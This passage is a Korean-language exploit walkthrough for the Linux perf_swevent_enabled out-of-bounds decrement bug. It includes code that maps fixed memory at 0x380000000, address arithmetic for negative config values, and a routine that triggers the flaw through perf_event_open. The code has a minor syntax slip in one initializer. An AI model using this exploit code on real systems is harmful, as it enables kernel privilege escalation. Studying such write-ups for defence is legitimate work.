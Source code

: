 * mmap() / MAP_FIXED 로 초기 메모리를 alloc 한다. 

```
#define BASE        0x380000000
#define SIZE        0x010000000 // 256 megabytes
#define KSIZE       0x002000000 // 32 megabytes
map = mmap((void *) BASE, SIZE, PROT_READ | PROT_WRITE, 
                MAP_FIXED | MAP_ANONYMOUS | MAP_PRIVATE,
                -1,
                0);
if (map != (void *) BASE) {
    fprintf(stderr, "mmap was unable to get fixed address: %lx\n", BASE);
    exit(EXIT_FAILURE);
}
memset(map, 0, SIZE);
```

BASE 가 `0x380000000` 로 잡힌 이유는

```
$ cat /boot/System.map-2.6.32-358.el6.x86_64 | grep perf_swevent_enabled
ffffffff81f360c0 B perf_swevent_enabled
```

* perf_swevent_enabled array 가 0xffffffff81f360c0 이고.

* config 로 -1 을 던지면, dec 는 0x0000000381F360bc 에 동작하게되고.

`0xffFFffFF * 4 + 0xffFFffFF81f360C0 == 0x0000000381F360bc`

* config 를 -2 로 던지면, dec 는 0x0000000381F360b8 에 가게된다.

그러니까 memory region 0x380000000 ~ 0x390000000 로 가면, config 를 -1,-2 로 던질때 dec 되는 address 를 커버한다.

#### break_perf_event_open(-1)

```
static void break_perf_event_open(uint32_t off) {
    struct perf_event_attr pea = {
        .type = PERF_TYPE_SOFTWARE;
        .size = sizeof(struct perf_event_attr),
        .config = off,
        .mmap = 1,
        .freq = 1,
    };

    int fd = syscall(__NR_perf_event_open,
                        &pea, // struct perf_event_attr __user *attr_uptr
                        0, // pid_t pid (target pid)
                        -1, // int cpu (target cpu)
                        -1, // int groud_fd (group leader fd)
                        0); // unsigned long flags

    if (fd < 0) {
        perror("perf_event_open");
        exit(EXIT_FAILURE);
    }
    if (close(fd) != 0) {
        perror("close");
        exit(EXIT_FAILURE);
    }
    return;
}
```
